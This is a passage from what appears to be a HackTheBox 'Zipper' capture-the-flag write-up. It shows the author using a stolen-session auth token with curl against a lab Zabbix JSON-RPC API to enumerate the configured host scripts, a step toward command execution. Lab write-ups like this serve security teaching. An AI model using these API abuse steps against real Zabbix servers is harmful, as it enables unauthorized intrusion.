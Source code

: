 In the API section above, I listed the hosts that this instance of Zabbix is
controlling. One was called Zabbix, and the other Zipper. If I assume that I’m
supposed to target Zipper (since it’s the HTB name for this challenge), I’ll
grab the hostid of 10106.

I’ll get a list of the scripts currently set:

    
    
    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.get", "id":1, "auth":"783e0eea06fa7073bf1e63082087c751", "params":{}}' | jq .
    {
      "jsonrpc": "2.0",
      "result": [
        {
          "scriptid": "1",
          "name": "Ping",
          "command": "/bin/ping -c 3 {HOST.CONN} 2>&1",
          "host_access": "2",
          "usrgrpid": "0",
          "groupid": "0",
          "description": "",
          "confirmation": "",
          "type": "0",
          "execute_on": "1"
        },
        {
          "scriptid": "2",
          "name": "Traceroute",
          "command": "/usr/bin/traceroute {HOST.CONN} 2>&1",
          "host_access": "2",
          "usrgrpid": "0",
          "groupid": "0",
          "description": "",
          "confirmation": "",
          "type": "0",
          "execute_on": "1"
        },
        {
          "scriptid": "3",
          "name": "Detect operating system",
          "command": "sudo /usr/bin/nmap -O {HOST.CONN} 2>&1",
          "host_access": "2",
          "usrgrpid": "7",
          "groupid": "0",
          "description": "",
          "confirmation": "",
          "type": "0",
          "execute_on": "1"
        }
      ],
      "id": 1
    }
    